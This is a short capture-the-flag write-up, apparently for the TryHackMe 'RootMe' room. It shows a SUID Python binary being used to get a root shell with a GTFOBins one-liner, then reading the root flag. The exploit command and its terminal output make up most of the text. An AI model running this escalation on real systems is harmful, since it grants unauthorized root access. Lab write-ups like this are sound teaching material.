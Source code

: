 I got a odd file that is `/usr/bin/python`

Let search the priv esc on [gtfo bin](https://gtfobins.github.io/gtfobins/python)
search for python and suid

![image](https://github.com/user-attachments/assets/a40dcb94-7904-4fb2-9ccb-4d6d5a490839)

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Past this 
```
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# 
```
Finding root flag.txt
```
# cat /root/root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
# 
```
